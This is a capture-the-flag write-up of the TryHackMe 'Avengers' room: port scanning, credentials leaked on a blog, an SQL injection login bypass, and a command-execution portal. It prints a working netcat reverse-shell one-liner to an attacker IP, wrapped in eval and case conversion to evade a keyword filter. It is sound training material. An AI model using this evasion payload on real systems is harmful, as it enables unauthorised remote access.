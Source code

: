 ```yaml
---
title: Avengers (Try Hack Me)
author: Robin Goyal
date: 2021-09-11 18:00 -0400
categories: [Cybersecurity, Writeups]
tags: [thm, ctf, writeup]
hidden: true
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/526fb97c8ede3330397e5cee20a8db6a.png
---
```


I am currently in the process of completing these boxes on Try Hack Me again in an effort to document my experience, reinforce my knowledge of the topics, and improve my ability to concisely communicate the pentest lifecycle.

## Enumeration

Why don't we kick things off with one of our standard nmap scans.

![nmap initial](/assets/img/posts/thm-avengers/nmap-initial.jpg)

This command performs an initial scan of the top 1000 ports of the target. There are 3 open ports:
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)

From the version information of the SSH service, this target is an Ubuntu Linux OS.

### FTP

I like to approach the FTP service first to test for anonymous authentication but we are out of luck for this room.

No matter! Let's check out the HTTP service.

### HTTP

The web application is a blog of the Avengers where the members of the Avengers have posted about random things?

![landing page](/assets/img/posts/thm-avengers/landing-initial.jpg)

Scrolling to the bottom of the web page, Rocket submitted an entry potentially revealing Groot's password.

![groot password](/assets/img/posts/thm-avengers/groot-password.jpg)

I tried the credentials `groot:iamgroot` on the SSH service but that service only allows SSH keys to authenticate as users. Next, I tried the credentials on the FTP server and the only file present was a file that contained a flag to one of the questions for this room on Try Hack Me.

With not much to go off of here, let's perform some directory enumeration.

![gobuster](/assets/img/posts/thm-avengers/gobuster.jpg)

The /portal is an interesting endpoint as /logout redirects us to it.

![portal](/assets/img/posts/thm-avengers/portal.jpg)

It's an authentication page! These intentionally vulnerable rooms occasionally contain leaked credentials so let's check out the page source.

![portal source](/assets/img/posts/thm-avengers/portal-source.jpg)

Interesting! This authentication page may be susceptible to SQL injection.

#### SQLi

*I will address more in my reflection of this room but I viewed the hint in the Try Hack Me room to solve the SQLi.*

![hint](/assets/img/posts/thm-avengers/hint.jpg)

Once we bypassed the login, we are presented with a "Jarvis" portal that can execute commands for us.

![Jarvis](/assets/img/posts/thm-avengers/jarvis.jpg)

## Initial Foothold

### Remote Command Execution

Trying out some sample commands, the target is processing the commands through a sh/bash interpreter.

The first thing I like to do with potential RCE is to see if I can ping my attacker machine. I start by capturing the traffic on that tun interface filtering for ICMP requests. Next, I run the command to ping the IP address on that interface for a count of 3.

![RCE ping](/assets/img/posts/thm-avengers/ping.jpg)

Fantastic! Since we have outgoing connectivity, let's try to obtain a reverse shell.

While enumerating this webshell, the Node backend was blocking some commands stating them as not allowed. It took LOTS of trial and error to understand the functionality of the application.

I used `pstree -a` to understand how the Node backend was processing our input and executing it.

![pstree](/assets/img/posts/thm-avengers/pstree.jpg)

All of our input is being executed by the Shell with the `-c` flag which executes a single command. This was not as helpful with my limited knowledge of how to abuse this but it may come in handy in the future.

We couldn't just use netcat or bash to generate a reverse shell as a significant number of commands returned "Command disallowed". On top of that, for any commands that generated an error, the application returned "Command not found".

*It took a while but what clicked was that the application was just searching for the disallowed commands in the string. If "cat" was banned but netcat was not, netcat would still be banned since the word cat was in there.*

*I spent a few hours at this stage trying various techniques and methods trying to bypass those commands. Halfway through, I looked at a few writeups but they used the hint provided to read the final flag using the `rev` command as that bypasses the banned tail,cat,more,etc commands. I was determined to generate the reverse shell so I persevered.*

I came up with two methods to bypass this command filtering. For the first method, I base64'd the command that was being blocked and wrapping it with a `$()` to execute the string. The second method utilized the same wrapping but translated the command from all uppercase characters (the server did not check both uppercase and lowercase commands) to lowercase characters. I tested both situations on my system but it failed with any commands that used redirects and pipes.


A bit of google-fu and there was an alternative to use the `eval` command to execute a string. Instead of wrapping the command with `$()`, I used one of the two methods I came up with and evaluated it as a string. It took several hours trying out various techniques to bypass the command filtering and figure out which reverse shell payload would work but I hit the jackpot with the following command!

` eval "$(echo "RM /TMP/F;MKFIFO /TMP/F; CAT /TMP/F | /BIN/SH -I 2>&1 | NC 10.6.5.103 80 > /TMP/F" | tr '[A-Z]' '[a-z]')"
`

A quick breakdown of the command that worked for me:
- The reverse shell payload is from the [PayloadAllTheThings repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).
- The payload is translated from uppercase to lowercase
- The `"$()"` executes the translation and saves it as a string
- eval executes the string command generating the reverse shell

![reverse shell](/assets/img/posts/thm-avengers/reverse-shell.jpg)

Success! We obtained a shell as root. We were rewarded greatly with the fruits of our labour! We can now grab the final flag and consider this room completed.

## Reflection

This room was challenging for a variety of reasons. I gave up during the SQL injection portion fairly quickly. For the final aspect generating the reverse shell, it would have been easy to read the final flag with the techniques that I had and move on. After giving up quickly on the SQLi, I was determined to solve the challenge.

SQLi is not one of my favourite challenges to solve but that is not an excuse to learn or strive to better at that aspect. There's an abundance of resources on learning and improving at it instead of just trying one type of payload and then throwing sqlmap at it and praying.

I have ways to go to "Try Harder" and be relentless in my persistence. I won't progress far if I give up on a roadblock within the first few minutes.
